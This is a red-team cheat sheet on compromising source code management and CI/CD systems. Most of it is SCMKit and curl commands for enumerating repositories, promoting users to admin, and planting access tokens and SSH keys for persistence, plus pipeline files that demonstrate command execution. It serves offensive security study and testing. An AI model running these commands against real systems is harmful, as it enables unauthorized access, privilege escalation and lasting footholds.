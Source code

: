 # Source Code Management & CI/CD Compromise

> CI/CD is a method to frequently deliver apps to customers by introducing automation into the stages of app development. The main concepts attributed to CI/CD are continuous integration, continuous delivery, and continuous deployment. Compromises in CI/CD can occur through unauthorized access, misconfiguration, dependency vulnerabilities, insecure secrets, and lack of visibility.

## Tools

* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - List the secrets stored inside CI/CD environments and extract them by deploying malicious pipelines
* [xforcered/SCMKit](https://github.com/xforcered/SCMKit) - Source Code Management Attack Toolkit

## Enumerate repositories files and secrets

Using [SCMKit - Source Code Management Attack Toolkit](https://github.com/xforcered/SCMKit)

* Discover repositories being used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m listrepo -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrepo -c apiKey -u https://gitlab.something.local
    ```

* Search for repositories by repository name in a particular SCM system

    ```ps1
    SCMKit.exe -s github -m searchrepo -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchrepo -c apikey -u https://gitlab.something.local -o "some search term"
    ```

* Search for code containing a given keyword in a particular SCM system

    ```ps1
    SCMKit.exe -s github -m searchcode -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s github -m searchcode -c apikey -u https://github.something.local -o "some search term"
    ```

* Search for files in repositories containing a given keyword in the file name in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m searchfile -c userName:password -u https://gitlab.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchfile -c apikey -u https://gitlab.something.local -o "some search term"
    ```

* List snippets owned by the current user in GitLab

    ```ps1
    SCMKit.exe -s gitlab -m listsnippet -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listsnippet -c apikey -u https://gitlab.something.local
    ```

* List all GitLab runners available to the current user in GitLab

    ```ps1
    SCMKit.exe -s gitlab -m listrunner -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrunner -c apikey -u https://gitlab.something.local
    ```

* Promote a normal user to an administrative role in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m addadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m addadmin -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removeadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    ```

## Personal Access Token

Create a PAT (Personal Access Token) as a persistence mechanism for the Gitlab instance.

* Manual

    ```ps1
    curl -k --request POST --header "PRIVATE-TOKEN: apiToken" --data "name=user-persistence-token" --data "expires_at=" --data "scopes[]=api" --data "scopes[]=read_repository" --data "scopes[]=write_repository" "https://gitlabHost/api/v4/users/UserIDNumber/personal_access_tokens"
    ```

* Using `SCMKit.exe`: Create/List/Delete an access token to be used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m createpat -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m createpat -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removepat -c userName:password -u https://gitlab.something.local -o patID
    SCMKit.exe -s gitlab -m listpat -c userName:password -u https://gitlab.something.local -o targetUser
    SCMKit.exe -s gitlab -m listpat -c apikey -u https://gitlab.something.local -o targetUser
    ```

* Get the assigned privileges to an access token being used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m privs -c apiKey -u https://gitlab.something.local
    ```

## SSH Keys

* Create/List an SSH key to be used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m createsshkey -c userName:password -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m createsshkey -c apiToken -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m listsshkey -c userName:password -u https://github.something.local
    SCMKit.exe -s gitlab -m listsshkey -c apiToken -u https://github.something.local
    SCMKit.exe -s gitlab -m removesshkey -c userName:password -u https://gitlab.something.local -o sshKeyID
    SCMKit.exe -s gitlab -m removesshkey -c apiToken -u https://gitlab.something.local -o sshKeyID
    ```

## Gitlab CI

* Gitlab-CI "Command Execution" example: `.gitlab-ci.yml`

    ```yaml
    stages:
        - test

    test:
        stage: test
        script:
            - |
                whoami
        parallel:
            matrix:
                - RUNNER: VM1
                - RUNNER: VM2
                - RUNNER: VM3
        tags:
            - ${RUNNER}
    ```

### Gitlab Executors

* **Shell** executor: The jobs are run with the permissions of the GitLab Runner’s user and can steal code from other projects that are run on this server.
* **Docker** executor: Docker can be considered safe when running in non-privileged mode.
* **SSH** executor: SSH executors are susceptible to MITM attack (man-in-the-middle), because of missing `StrictHostKeyChecking` option.

### Gitlab CI/CD variables

CI/CD Variables are a convenient way to store and use data in a CI/CD pipeline, but variables are less secure than secrets management providers

## Github Actions

* Github Action "Command Execution" example: `.github/workflows/example.yml`

    ```yml
    name: example
    on:
      workflow_dispatch:
      push:
        branches: [ main ]
      pull_request:
        branches: [ main ]

    jobs:
      build:
        runs-on: windows-2019

        steps:
          - name: Execute
            run: |
              whoami
    ```

## References

* [Controlling the Source: Abusing Source Code Management Systems - Brett Hawkins - August 9, 2022](https://securityintelligence.com/posts/abusing-source-code-management-systems/)
* [CI/CD SECRETS EXTRACTION, TIPS AND TRICKS - Hugo Vincent, Théo Louis-Tisserand - 01/03/2023](https://www.synacktiv.com/publications/cicd-secrets-extraction-tips-and-tricks.html)
* [Security for self-managed runners - Gitlab](https://docs.gitlab.com/runner/security/)
* [Fixing Typos and Breaching Microsoft’s Perimeter - John Stawinski IV - April 15, 2024](https://johnstawinski.com/2024/04/15/fixing-typos-and-breaching-microsofts-perimeter/)
